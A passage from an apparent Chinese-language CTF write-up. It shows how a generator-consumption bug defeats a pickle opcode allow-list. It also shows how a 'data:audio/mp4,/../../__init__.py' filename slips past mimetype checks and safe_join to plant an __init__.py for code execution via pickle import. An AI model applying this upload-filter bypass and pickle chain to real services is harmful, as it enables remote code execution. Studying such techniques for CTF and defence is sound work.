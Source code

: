 
虽然看起来只有一些没啥用的 opcode 可以用，但实际上 allow_ops 的限制没什么作用，只是一个纸老虎，因为 genops 返回的是一个 generator，在第一次 not all 的时候iter已经迭代完了，第二次 not all 肯定会过。

```py
import pickletools
import pickle

data = pickle.dumps(1)
opcodes = pickletools.genops(data)
print(opcodes)
for op in opcodes:
    print(op)
print(len([op for op in opcodes]))
'''
<generator object _genops at 0x7f5ecc2112e0>
(<pickletools.OpcodeInfo object at 0x7f5ecc188a60>, 4, 0)
(<pickletools.OpcodeInfo object at 0x7f5ecc1653a0>, 1, 2)
(<pickletools.OpcodeInfo object at 0x7f5ecc188ac0>, None, 4)
0
'''
```

所以其实是可以使用任意 opcode 的，但是第一次 not all 的时候对 opcode 的参数做了限制。

既然有 music 文件夹，也可以在 music 文件夹下写文件，可以考虑利用 pickle 中的 global 操作符把 music 下的文件 import 进来。

上传文件时有一个 mimetypes 的文件类型校验

```python
if mimetypes.guess_type(file.filename)[0] in AUDIO_MIMETYPES \
    and magic.from_buffer(file.stream.read(), mime=True) in AUDIO_MIMETYPES:
```

文件内容的 check 可以通过构造文件头来绕过，文件名的 check 可以用 data 协议配合 safe_join 来绕过

```python
>>> mimetypes.guess_type('data:audio/mp4,/../../__init__.py')
('audio/mp4', None)
```

safe_join 的时候会先调用 posixpath.normpath，所以 join 的时候可以变成正常的路径

```python
>>> posixpath.normpath('data:audio/mp4,/../../__init__.py')
'__init__.py'
```

```python
>>> safe_join('music', 'abc/../', 'data:audio/mp4,/../../__init__.py')
'music/./__init__.py'
```

这样只要 import music 就可以执行任意 python 代码了。


## void

To be continued ...